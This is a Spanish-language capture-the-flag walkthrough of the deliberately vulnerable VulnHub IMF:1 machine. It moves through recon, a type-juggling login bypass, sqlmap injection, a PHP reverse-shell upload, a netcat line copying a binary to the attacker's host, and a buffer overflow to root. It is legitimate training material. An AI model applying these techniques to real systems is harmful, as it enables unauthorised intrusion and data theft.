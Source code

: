 ```yaml
---
Title: "IMF — Walkthrough"
Author: "Pxlymxrph"
Level: "Easy / Medium"
Target: "VulnHub - IMF:1"
url: "https://www.vulnhub.com/entry/imf-1,162/"
Date: 2025-09-30
Tags: [ctf, vulnhub, linux, ssh, privesc, bof, enum]
---
```


# IMF — Walkthrough

**Autor:** Pxlymxrph  
**Origen:** VulnHub — IMF (link arriba)  
**Objetivo:** Encontrar las flags disponibles y obtener acceso root.  
**Resumen (TL;DR):**
- Descubrí la IP de la máquina en la LAN.  
- `nmap` mostró unicamente el servicio HTTP.  
- La web reveló cadenas en base64 con un directorio de login. Se encuentra vulnerabilidad `type juggling` → acceso como `rmichaels`.  
- Ataque SQLI con `sqlmap` dentro del panel de login → acceso a imagen `whiteboard.jpg` con código QR.  
- Encontré panel de subida de archivos → `r.shell.php` -> acceso remoto
- Ingenieria inversa a binario `agent` y `buffer overflow`.  

# 1) Descubrimiento de red
Detecté la máquina objetivo en la red local con:

```bash
arp-scan -I eth0 --localnet --ignoredups
```

IP objetivo: **192.168.1.74**. Verifiqué cabeceras/TTL con `ping -c 1 192.168.1.74` (confirma Linux).

![ip_discovery.png](Images/ip_discovery.png)

## 2) Escaneo de puertos y servicios
Escaneo rápido de todos los puertos:

```bash
nmap -p- -sS --min-rate 5000 192.168.1.74 -Pn -n -vvv
```

Escaneo con scripts en puertos detectados (80):

```bash
nmap -sCV -p21,22,80 192.168.1.74
```
![nmap_servs.png](Images/nmap_servs.png)

Resultados clave: 
- 80/tcp HTTP  

## 3) Enumeración web
Reconocimiento rápido:

```bash
whatweb http://192.168.1.74/
```

![whatweb.png](Images/whatweb.png)

Página con un logo con la leyenda IMF - Impossible Mission Force. El código fuente alberga la primer flag.

![index.png](Images/index.png)

![flag1.png](Images/flag1.png)

Inspeccionando detenidamente el código fuente encuentro una nueva cadena de base64 oculta y divida en tres partes.

![cadena_base64.png](Images/cadena_base64.png)

![flag2.png](Images/flag2.png)

La cadena contiene una nueva dirección `/imfadministrator/` con un panel de login.

![login_panel.png](Images/login_panel.png)

Un apartado contiene nombres de colaboradores y virtual hosting. Los almaceno para usarlos posteriormente y agrego la ruta al `/etc/hosts`.

![virtual_host.png](Images/virtual_host.png)

 ## 4) Fuzzing de directorios
Fuzzing con `gobuster` para buscar directorios y archivos de interes:

```bash
gobuster dir -u http://192.168.1.74/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

Descubro `/images/`, `projects.php` y `contact.php`. No hay información reelevante

![gobuster.png](Images/gobuster.png)

## 5) Panel login
Regreo al panel de acceso e inspección manualmente el HTML que mostró un mensaje indicando que el panel está protegido contra inyecciones sql.

![login_panel_comment.png](Images/login_panel_comment.png)

## 6) BurpSuite
Realizo diferentes pruebas con el `repeater`. Logro acceder aplicando un `type juggling`.

![type_juggling.png](Images/type_juggling.png)

## 7) SQLI 
Dentro del panel reviso la url `imfadministrator/cms.php?pagename=`, lo que me anima a usar `sqlmap`.

```bash
sqlmap -u 'http://imf.local/imfadministrator/cms.php?pagename='
```

![sqlmap.png](Images/sqlmap.png)

`sqlmap` devuelve información sobre un archivo oculto `whiteboard.jpg`. La imagen contiene un código QR con una flag y un nuevo directorio.

![sqlmap2.png](Images/sqlmap2.png)

![flag4.png](Images/flag4.png)

## 8) Acceso y enumeración local
El nuevo directorio alberga un panel de subida de archivos. Intercepto la petición con `BurpSuite` para comenzar las pruebas. Se logra subir el archivo con la reverse shell al codificar la palabra `system` en hexadecimal. Procedo a leer la bandera número 5

![lfi_rshell.png](Images/lfi_rshell.png)

![flag5.png](Images/flag5.png)

Al convertir la nueva bandera (base64) a texto plano encuentro el texto `agentservices`. Procedo a usar `find` para buscar archivos con ese nombre. 

``` bash 
find -name agent 2>/dev/null | xargs ls -la
```

![find.png](Images/find.png)

Inspecciono los dos binarios resultantes

![binario1.png](Images/binario1.png)

![binario2.png](Images/binario2.png)

El segundo binario necesita que se proporcione un ID para poder funcionar; debido a esto, usamos `netcat` para traer el archivo a local.

```bash
nc -lvp 666 > agent
nc 192.168.1.80 666 < agent
```

## Busqueda de ID

Uso `ltrace` para ver a bajo nivel que es lo que pasa al ejecutar el binario y consigo el ID.

![ltrace.png](Images/ltrace.png)

## l2) Buffer Overflow:
Ya con el ID en nuestro poder, procedo a probar el binario y logro encontrar un desbordamiento del buffer mediante la opción 3.

![segment_fault.png](Images/segment_fault.png)

a) Aplico un `file agent` para obtener información sobre el binario y ejecutar el bof

![file_agent.png](Images/file_agent.png)

b) Busco la función `report` y encuentro la variable `local_a8` con un tamaño de buffer de 164 bytes. Además, hace uso de `gets` que es considerada como una función vulnerable.

![report_bof.png](Images/report_bof.png)

c) En este punto llevo a cabo el buffer overflow y consigo crear una shell como el usuario root y la flag final.

## Resumen de comandos clave
```bash
arp-scan -I eth0 --localnet --ignoredups
nmap -p- -sS --min-rate 5000 192.168.1.74 -Pn -n -vvv
nmap -sCV -p21,22,80 192.168.1.74
whatweb http://192.168.1.74/
gobuster dir -u http://192.168.1.74/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
sqlmap -u 'http://imf.local/imfadministrator/cms.php?pagename='
find -name agent 2>/dev/null | xargs ls -la
ltrace agent
```

## Conclusión
IMF es un CTF clasificado como fácil-intermedia pero a mi parecer se encuentra más en un nivel medio pues se necesita tener experiencia previa con más CTFs. Aunque el bof sea básico, puede resultar desafiante si no se esta familiarizado con dicha técnica. Pese a que el reto es más complicado de lo previsto, ayuda al pensamiento lateral y conocimientos más avanzados.